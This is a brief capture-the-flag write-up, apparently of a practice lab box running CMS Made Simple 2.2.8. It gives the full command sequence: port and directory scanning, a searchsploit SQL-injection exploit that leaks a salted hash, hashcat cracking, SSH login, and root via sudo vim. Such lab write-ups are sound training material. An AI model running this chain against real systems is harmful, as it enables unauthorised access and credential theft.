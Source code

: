 # Simple CTF
---
* It want to remind myself that I did it without any writeup :))))


* nmap finds 3 ports, 1 ftp which doesn't yeild anything interesing, 1 ssh and 1 web
* Running gobuster on the webpage, we find */simple* dir
```bash
$ gobuster dir -u http://10.10.154.169/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt | tee dir_scan
$ nmap -p- $IP
$ nmap -p 22,80,2222 -sV -sC $IP
```
* Searching for a vulnerability for *CMS Made Simple 2.2.8* we find one that exploits SQLi
```bash
$ searchsploit CMS Made Simple 2.2.8
$ searchsploit -m php/webapps/46635.py
```
The hash: *0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2*
```bash
$ python3 46635.py -u http://IP/simple/
$ hashcat -a 0 -m 20 hash /usr/share/wordlists/rockyou.txt
```
* The exploit gives us a password hash, which can easily be cracked with *hashcat* (password: secret)
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```
* The password can be used to connect to ssh on the higher port
```bash
$ ssh mitch@10.10.154.169 -p 2222
```

* Running *sudo -l* tells us that we can run *vim* with sudo privileges, so we can gain a root shell

